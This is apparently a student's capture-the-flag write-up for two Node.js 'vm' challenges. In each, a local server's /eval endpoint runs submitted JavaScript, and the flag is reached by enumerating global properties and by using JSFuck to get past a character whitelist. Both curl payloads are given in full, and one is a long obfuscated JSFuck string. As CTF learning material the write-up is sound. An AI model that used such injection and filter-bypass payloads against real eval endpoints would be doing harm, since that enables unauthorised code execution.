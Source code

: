 # vm
first saw its a server that opened the route /eval to the post request. since its difficult doing a post from the browser, i stated using curl.
read that i need to put something in the body with the key "code" so the js would extract it. not knowing js much at all i asked an llm what js expects here and it hinted me to the fact that the server expects the header Content-Type: application/json.
figured out the body must be formated like this: '{ "code": "<value>" }'
i then researched what the vm module in nodejs is and what it does when given a context.
asked the llm how to access the global variables in js, it retiurned me Object.getOwnPropertyNames(globalThis). removed the 'global' part of the string to see if that also works.
got a list of all global objs and saw flag is the last one. researched how to access the last element of an array in js found '.at(-1)'.
researched how to get the value of a global obj: this[<nameOfGlobal>].
assigned the last index of getOwnPropertyNames to a variable and accessed it.
final payload :
```
curl  localhost:3000/eval -H "Content-Type: application/json" -d'{ "code": " const f = Object.getOwnPropertyNames(this).at(-1); this[f] " }'
```

# wtf
first thought: nice similar to vm challenge!
realized i need the same packages and module folder adn vm challenge
second thought damn i cannot use "+*-![]()"
tried around for a bit -> () still works in the input??
tried the same payload as the vm challenge and it also worked??
major oversight from my side: forgot to stop the server from vm challenge lol
while researching, the llm pointed out something about jsfuck.. and if i read the code correctly i would have noticed that its not a blacklist but a whitelist..
i googled jsfuck and found the link to jsfuck.com which encodes js into jsfuck
this is crazy to be able to do that in js, wtf is this language????
-anyways i put in "this.flag" with 'eval' and 'run in parent scope' boxes ticked, put it in my curl command from vm challenge and it worked!!
payload was too long, couldnt fit into message
```
curl  localhost:3000/eval -H "Content-Type: application/json" -d'{ "code": "[][(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(+(!+[]+!+[]+!+[]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[!+[]+!+[]])+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]])()((!![]+[])[+[]]+(+(+!+[]+[+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+[+!+[]])[+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]+!+[]]+(+(+!+[]+[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+[!+[]+!+[]]+[+[]])+[])[+!+[]]+(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(![]+[+[]]+([]+[])[([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])" }'
```